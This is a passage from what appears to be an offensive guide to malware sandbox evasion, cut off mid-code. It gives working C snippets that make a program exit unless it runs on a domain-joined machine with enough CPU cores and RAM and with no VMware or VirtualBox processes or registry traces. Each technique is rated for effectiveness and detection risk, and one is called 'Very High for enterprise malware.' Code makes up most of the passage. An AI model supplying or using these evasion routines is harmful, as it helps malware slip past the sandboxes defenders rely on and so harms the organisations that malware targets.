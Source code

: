**C. Environmental Triggers**
- Check for domain-joined status (sandboxes typically standalone)
- Verify internet connectivity to specific legitimate sites
- Check for recent document/browser activity (indicates real user)
```c
// Only execute on domain-joined systems
LPWSTR domain = NULL;
NetGetJoinInformation(NULL, &domain, &status);
if(status != NetSetupDomainName) {
    ExitProcess(0); // Exit if not domain-joined
}
```
**Effectiveness:** Very High for enterprise malware
**Detection Risk:** Very Low

---

#### Category 2: VM Detection
**Sandbox Characteristic:** Runs on virtual machines (VMware, VirtualBox, QEMU)

**Evasion Techniques:**

**A. Hardware Checks**
```c
// Check CPU core count (sandboxes often use 1-2 cores)
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);
if(sysInfo.dwNumberOfProcessors < 4) {
    ExitProcess(0);
}

// Check RAM (sandboxes typically 2-4GB)
MEMORYSTATUSEX memInfo;
memInfo.dwLength = sizeof(MEMORYSTATUSEX);
GlobalMemoryStatusEx(&memInfo);
if(memInfo.ullTotalPhys < 8589934592) { // 8GB
    ExitProcess(0);
}
```
**Effectiveness:** Medium-High (modern sandboxes can fake hardware)
**Detection Risk:** Low

**B. VM Artifact Detection**
```c
// Check for VMware tools processes
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 pe32;
pe32.dwSize = sizeof(PROCESSENTRY32);

Process32First(hSnapshot, &pe32);
do {
    if(strstr(pe32.szExeFile, "vmtoolsd.exe") ||
       strstr(pe32.szExeFile, "vboxservice.exe")) {
        ExitProcess(0); // VM detected
    }
} while(Process32Next(hSnapshot, &pe32));

// Check registry for VM signatures
HKEY hKey;
if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
    "HARDWARE\\DEVICEMAP\\Scsi\\Scsi Port 0\\Scsi Bus 0\\Target Id 0\\Logical Unit Id 0",
    0, KEY_READ, &hKey) == ERROR_SUCCESS) {

    char identifier[256];
    DWORD size = sizeof(identifier);
    RegQueryValueEx(hKey, "Identifier", NULL, NULL, (LPBYTE)identifier, &size);
```